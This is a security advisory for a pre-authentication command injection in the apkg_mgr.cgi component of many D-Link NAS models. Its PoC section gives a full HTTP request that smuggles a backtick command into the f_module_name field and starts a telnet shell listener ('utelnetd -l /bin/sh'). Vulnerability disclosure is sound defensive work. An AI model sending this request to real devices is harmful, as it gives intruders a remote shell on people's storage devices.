



# D-Link Vulnerability

Vendor:D-Link

Product:DNS-120、DNR-202L、DNS-315L、DNS-320、DNS-320L、DNS-320LW、DNS-321、DNR-322L、DNS-323、DNS-325、DNS-326、DNS-327L、DNR-326、DNS-340L、DNS-343、DNS-345、DNS-726-4、DNS-1100-4、DNS-1200-05 、DNS-1550-04

Version:up to 20260205

Type:Command Execution

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)

> This vulnerability reporting environment is based on the latest version 2.06b01 of the DNS-320.


## Vulnerability description

We found an Command Injection vulnerability  in D-Link Technology NAS device with firmware which was released recently，allows remote attackers to execute arbitrary OS commands from a crafted request. **This vulnerability can be exploited without any authentication.**

**Remote Command Execution**

In `apkg_mgr.cgi` binary:

In `module_enable_disable` function, `f_module_name` is directly passed by the attacker, so we can control the `f_module_name` to attack the OS.

<div  align="center"></div>

<div  align="center"></div>


## PoC

We set `f_module_name` as **`utelnetd -p 8923 -l /bin/sh`** , and the router will excute it,such as:

```http
POST /cgi-bin/apkg_mgr.cgi HTTP/1.1
Host: 192.168.0.32
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:145.0) Gecko/20100101 Firefox/145.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 61
Origin: http://192.168.0.32
Connection: keep-alive
Referer: http://192.168.0.32/web/backup_mgr/s3_main.html
Priority: u=0

cmd=module_enable_disable&f_module_name=`utelnetd -p 8923 -l /bin/sh`&f_enable=&f_web=
```


## Result

Get a shell!

<div  align="center"></div>
